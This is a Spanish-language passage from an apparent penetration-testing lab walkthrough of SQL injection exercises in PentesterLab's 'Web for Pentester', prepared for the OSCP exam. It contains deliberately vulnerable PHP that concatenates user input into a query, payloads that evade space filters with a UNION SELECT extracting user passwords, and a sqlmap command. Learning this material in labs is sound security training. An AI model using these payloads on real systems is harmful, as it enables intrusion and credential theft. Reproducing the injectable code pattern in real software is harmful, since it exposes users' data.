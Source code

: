 ```php
// ---------------------------------    
    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
  require '../footer.php';
?>
```

Para evadir este sencillo filtro podemos utilizar los caracteres **/\*\*/** (comentario) o **%09** (tabulador codificado URL):

PAYLOAD:
```
http://pentesterlab/sqli/example2.php?name=root'%09and%09'1'='1
http://pentesterlab/sqli/example2.php?name=root'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
```

También, podríamos intentar detectar la inyección de forma automatizada, normalmente con la herramienta de facto SQLMap con los siguientes parámetros y el tamper (modificador) correspondiente:

SQLMap
```
sqlmap -u &quot;http://pentesterlab/sqli/example2.php?name=root&quot; --dbs --tamper=space2comment
```

![sqlmap1](https://1.bp.blogspot.com/-FJfEvAVcrQU/WJUiz9HcKMI/AAAAAAAA4fY/leZobz5YuZMEZWmw5k5u81ekXp38Jxu_gCLcB/s1600/webforpentester_sqli_ejercicio2.png)

Si bien tener en cuenta que lo mejor es hacerlo de forma manual para saber exactamente qué se está haciendo. Además en el examen del OSCP no se pueden utilizar este tipo de herramientas automatizadas.


##  Ejercicio 3

 A continuación se utiliza la expresión regular **\s+** para filtrar uno o más espacios seguidos:

 Servidor:
```php
<?php
    require_once('../header.php');
  require_once('db.php');
  //PAY ATTENTION HERE ------------------------
    if (preg_match('/\s+/', $_GET["name"])) {
        die("ERROR NO SPACE");    
    }
    $sql = "SELECT * FROM users where name='";
    $sql .= $_GET["name"]."'";

    $result = mysql_query($sql);
  //--------------------------------------------
    if ($result) {
        ?>
        <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
        <?php
```